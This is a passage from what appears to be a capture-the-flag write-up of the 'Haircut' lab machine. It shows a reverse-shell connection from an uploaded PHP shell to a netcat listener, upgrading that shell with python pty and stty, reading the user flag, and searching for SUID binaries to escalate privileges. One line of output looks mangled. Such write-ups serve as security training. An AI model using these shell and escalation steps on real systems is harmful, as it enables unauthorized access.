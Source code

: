 Now back on box we brose to the uploaded shell:

![open_shell_php](/assets/images/2020-06-04-21-57-35.png)

## User Flag

Switch to Kali again and we have a connection:

```text
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.24] 51248
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:38:58 up  4:01,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

First thing is upgrade to a proper shell:

```text
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haircut:/$ ^Z
[1]+  Stopped                 nc -nlvp 1234
root@kali:~/htb/haircut# stty raw -echo
root@kali:~/htb/haircut# nc -nlvp 1234
```

Confirm who we are:

```text
www-data@haircut:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's see if we can get the user flag:

```text
www-data@haircut:/etc$ cat /home/maria/Desktop/user.txt
<<HIDDEN>>
```

## Privilege Escalation

We have the user flag, time to try and escalate to root. First thing I check for is SUID binaries:

```text
www-data@haircut:/$ find / -perm -4000 2>/dev/null
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/screen-4.5./usr/lib/openssh/
<SNIP>
```
